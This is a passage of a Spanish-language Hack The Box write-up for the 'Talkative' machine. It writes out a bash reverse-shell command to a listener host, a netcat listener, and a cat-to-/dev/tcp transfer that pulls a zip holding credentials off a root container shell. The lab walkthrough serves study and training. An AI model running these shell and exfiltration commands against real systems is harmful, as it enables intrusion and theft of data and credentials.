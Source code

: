 Y vemos que funciona!

<img src="/assets/images/htb/talkative/talkative8.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Puede interpretar comandos de Linux, asi que, **system("bash -c 'bash -i >& /dev/tcp/10.10.14.10/6060 0>&1'")** el tipico comando de bash de entablar una consola inversa

Por nuestro lado nos abriremos un puerto en escucha para recibir la consola

```bash
❯ nc -nvlp 6060
```

Ya en escucha le damos, y nos da una consola interactive
```ruby 
> root@b06821bbda78:~#
```
Dentro de la máquina vemos que somos **root** pero tiene pocas cosas y es un contenedor..., vemos que en el directorio /root hay un archivo 'bolt-administration.omv', haciendo el comando 'file' vemos que es un archivo zip

```ruby
> root@b06821bbda78:~# file bolt-administration.omv
bolt-administration.omv: Zip archive data, at least v2.0 to extract, compression method=deflate
```

La máquina no tiene unzip asi que, tocará trasferirlo a nuestro equipo para descomprimir, una manera que se me ocurre es con el propio comando 'cat' 
```ruby
> root@b06821bbda78:~# cat bolt-administration.omv > /dev/tcp/0.0.0.0/6061
```
y en una terminal aparte escribir...

```bash
❯ nc -nvlp 6061 > bolt-administration.omv
```

Con md5sum bolt-administration.omv en ambos equipos, nos muerta un hash correspondiente a la data que almacena, nos sirve para ver si la data fue afectada o corrompida 

```bash
❯ md5sum bolt-administration.omv 
89a471297760280c51d7a48246f95628
```
Sin errores, pasamos a descomprimir el zip que contiene varias cositas entre ellas un archivo 'xdata.json' que contiene credenciales, los correos y contraseñas de algo, con una expresión filtramos por lo que nos interesa
